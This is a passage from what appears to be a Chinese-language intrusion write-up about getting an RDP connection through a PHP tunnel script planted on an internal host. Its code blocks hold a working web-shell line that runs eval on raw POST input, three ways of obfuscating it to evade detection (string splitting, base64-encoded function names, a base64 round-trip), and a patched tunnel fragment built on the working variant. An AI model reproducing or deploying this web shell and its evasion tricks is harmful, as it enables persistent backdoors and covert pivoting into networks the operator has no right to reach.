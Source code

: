 &#8195;&#8195;可以成功访问`http://192.168.0.6/tunnel.nosocket.php`，但是也只能说明GET请求无误，3389连接的时候还是出错了，陷入绝望，明明代码传成功了。回顾一下过程，决定测试一下拼接的函数是否有问题，果然出了问题，本地测试代码：
```php
<?php
echo "<br/>"."------原函数-------"."<br/>";
$data=file_get_contents('php://input');
echo $data."<br/>";
@eval(file_get_contents('php://input'));

echo "<br/>"."------方法1-------"."<br/>";
$a = "file_get_conte";
$b = "nts('php://input');";
echo "a+b=".$a.$b."<br/>";
eval($a.$b);

echo "<br/>"."------方法2-------"."<br/>";
$c = base64_decode('ZmlsZV9nZXRfY29udGVudHMoJ3BocDovL2lucHV0Jyk7');
echo "c=".$c."<br/>";
eval($c);

echo "<br/>"."------方法3-------"."<br/>";
$d = base64_encode(file_get_contents('php://input'));
echo "d=".$d."<br/>";
$e = base64_decode($d);
echo "e=".$e."<br/>";
eval($e);
?>
```
&#8195;&#8195;从截图可以看出，之前用的方法，拼接后的函数失效了,前两种方法并没有执行pwd命令，第三种方法严格说并没有改变file_get_contents('php://input')的形式，但起码函数没有失效。
![file_get_contents](/imgs/file_get_contents.png)
代码改为如下：
```php
<?php
/* 省略
*/
#$rawPostData = file_get_contents("php://input");
$a = base64_encode(file_get_contents('php://input'));
$rawPostData = base64_decode($a);
/* 省略
*/
```